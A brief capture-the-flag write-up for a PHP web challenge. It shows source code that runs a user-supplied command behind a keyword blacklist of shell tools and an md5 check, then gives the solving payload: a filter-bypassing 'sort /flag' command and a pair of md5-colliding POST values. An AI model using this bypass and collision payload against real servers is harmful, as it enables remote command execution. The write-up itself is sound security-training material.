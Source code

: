 ba'se64----> base64---->hex

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
```

md5强碰撞。

这里斜杠过滤有问题，

```
?cmd=sort%20/flag

# POST
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

https://blog.csdn.net/CSDNiamcoming/article/details/108837347?utm_medium=distribute.pc_aggpage_search_result.none-task-blog-2~aggregatepage~first_rank_v2~rank_aggregation-2-108837347.pc_agg_rank_aggregation&utm_term=md5%E5%BC%BA%E7%BB%95%E8%BF%87&spm=1000.2123.3001.4430

